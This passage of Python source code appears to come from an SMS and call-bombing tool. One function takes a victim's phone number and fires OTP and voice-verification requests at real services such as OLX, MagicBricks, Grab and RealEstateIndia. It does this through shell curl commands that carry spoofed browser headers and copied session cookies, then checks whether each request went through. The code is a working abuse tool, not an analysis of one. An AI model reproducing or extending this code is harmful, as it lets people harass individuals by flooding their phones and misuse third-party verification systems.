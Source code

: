        response = requests.post('https://api.grab.com/grabid/v1/phone/otp', data=data)
        return True
    elif lim == 100:
        rd = os.popen('curl -s -X GET "https://www.makaan.com/apis/nc/sendOtpOnCall/16257065/' +
                      pn + '?callType=otpOnCall"').read()
        return rd.lower().find("new otp has been") != -1
    elif lim == 101:
        rd = os.popen('curl -s -X POST -d mobile=%2B' + cc + '-' + pn +
                      ' https://marketing.tllms.com/elearn/api/v4/authentications/phone_call').read()
        return rd.lower().find("otp requests exceeded") == -1
    elif lim == 102:
        rd = os.popen('curl -s -X POST -H "Host:www.realestateindia.com" -H "content-length:58" -H "accept:text/html, */*; q=0.01" -H "origin:https://www.realestateindia.com" -H "x-requested-with:XMLHttpRequest" -H "save-data:on" -H "user-agent:Mozilla/5.0 (Linux; Android 8.1.0; vivo 1718) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.157 Mobile Safari/537.36" -H "content-type:application/x-www-form-urlencoded; charset=UTF-8" -H "referer:https://www.realestateindia.com/thanks.php?newreg" -H "accept-encoding:gzip, deflate, br" -H "accept-language:en-IN,en;q=0.9,en-GB;q=0.8,en-US;q=0.7,hi;q=0.6" -H "cookie:_gat=1" -H "cookie:rei_mem_mobile_verify_status=0" -H "cookie:rei_mem_email_verify_status=N" -H "cookie:rei_mem_block_status=0" -H "cookie:rei_member_country=IN" -H "cookie:rei_paid_status=0" -H "cookie:rei_member_type=1" -H "cookie:rei_member_email=Fakemam%40ril.com" -H "cookie:rei_member_name=Fakeman" -H "cookie:rei_member_id=1547045" -H "cookie:cooki_sess_id=9q8bsucj6mgvu2dc03bfsvlf07" -H "cookie:name=9q8bsucj6mgvu2dc03bfsvlf07" -H "cookie:_gid=GA1.2.626525909.1560836369" -H "cookie:_ga=GA1.2.1033079331.1560836369" -H "cookie:visitedToken=176961560836367" -d \'action_id=call_to_otp&mob_num=' + pn + '&member_id=1547045\' "https://www.realestateindia.com/mobile-script/indian_mobile_verification_form.php?sid=0.5983221395805354"').read()
        return rd.lower().find("y") != -1
    elif lim == 103:
        os.system(
            'curl -s -X POST -H "Host:www.olx.in" -H "content-length:44" -H "accept:*/*" -H "x-newrelic-id:VQMGU1ZVDxABU1lbBgMDUlI=" -H "origin:https://www.olx.in" -H "user-agent:Mozilla/5.0 (Linux; Android 5.0.2; SH-04G) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.157 Mobile Safari/537.36" -H "content-type:application/json" -H "referer:https://www.olx.in/" -H "accept-encoding:gzip, deflate, br" -H "accept-language:en-US,en;q=0.9" -H "cookie:onap=16b1b8f48d4x746d47ab-1-16b1b8f48d4x746d47ab-19-1559537345" -H "cookie:bm_sv=CDB97F50DA6615AC420F3E6E77B04E42~OoX2fAuP7ggcNa0VjzE95FzJNKRdJlW09Hja0/cysIGF1sJoBO7i0ndGXqnTWLaunlyxktHLbE8BSstPCRYn8VdP15lvUxK3ZY9ahXOSgwAidxwXd1jCe5wjIzYbiXp5eKNWfFpowhFbpxloe+SrbiE0YHJVPcCV5bmdsHgPfQc=" -H "cookie:AMP_TOKEN=%24NOT_FOUND" -H "cookie:hint=true" -H "cookie:_gid=GA1.2.369819276.1559535517" -H "cookie:_ga=GA1.2.665688753.1559535517" -H "cookie:ldTd=true" -H "cookie:G_ENABLED_IDPS=google" -H "cookie:HIDE_ONBOARDING_LOCATION=true" -H "cookie:testCookie=testCookie" -H "cookie:ak_bmsc=307C5311FB00A3F4E856AFFE1A9D000B0214BED9E0210000909FF45C1E802067~plFZfbMQGgEDr7OWVe9FvqfT24ZtOVMamtYcaip71IYOrv2+SQ6fokSvMk2Uesz5v1sFfaichbtDgeVSj3te3vXJKezSWgvoVWrK7gfzFrLz1ruBm0MQj01V5CmpaTr6tRgDRSN6bks3nqvOHzR0tA1IoqfDfq2MKtmDjbknCI5FlLYUTwqlnwHowYArfybn2n3yilE6VKHjW+tH8kqjAfH8BGuijpmO9pNkgmIyOeaZIVM3k6FGOL3Wj3jLI8uGaU" -H "cookie:_abck=153BD3D333948A58932748CAC3D4C3F40214BED9E0210000909FF45C18838E05~0~8O+udxdG38sBFTPZpaBL4IGj7eUcKJ1VwAtJ52GMO5E=~-1~-1" -H "cookie:bm_sz=BD665D919F7C6FA8374F196445596436~YAAQ2b4UArpOAwtrAQAAq0qPGwNksHBgphLwDzwfBlwIRQJAG7txmjBo/of7NiAJ93gy/7vBhQ9l5sIKdwtl2j+U4bys2Hhh5tZlZL/jqdnW/JrgmgawcxiunAJ32BbY9UtnFIrNxbbRvzQCYnSwf/cz9a7jURsui7leuLaVm7mQEcHPOtC6g5jrToAMTbdA" -H "cookie:97c09e2aabdfed89b87a3010d7f13c64=353b4f9fd82d26268ad11b2c1e9ae019" -H "cookie:lqstatus=1559536704" -H "cookie:laquesis=pan-26381@a#pan-27752@b#pan-30043@b#pana-26381@b" -d \'{"type":"call","descriptor":"+91' + pn + '"}\' "https://www.olx.in/api/challenges" >/dev/null 2>&1')
        return True
    elif lim == 104:
        rd = os.popen('curl -s -X GET -H "Host:api.magicbricks.com" -H "Connection:keep-alive" -H "User-Agent:Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.89 Safari/537.36" -H "Save-Data:on" -H "Accept:image/webp,image/apng,image/*,*/*;q=0.8" -H "Accept-Encoding:gzip, deflate, br" -H "Accept-Language:en-IN,en;q=0.9,en-GB;q=0.8,en-US;q=0.7,hi;q=0.6" "https://api.magicbricks.com/bricks/verifyOnCall.html?mobile=' + pn + '"').read().decode('utf-8')
        return rd.lower().strip().find('callmade') != -1
    elif lim == 106:
        rd = os.popen(
            'curl -s "https://www.myupchar.com/user_profile/resend_otp_via_voice?id=' + pn + '"').read()
        return rd.find("1") != -1
    return False
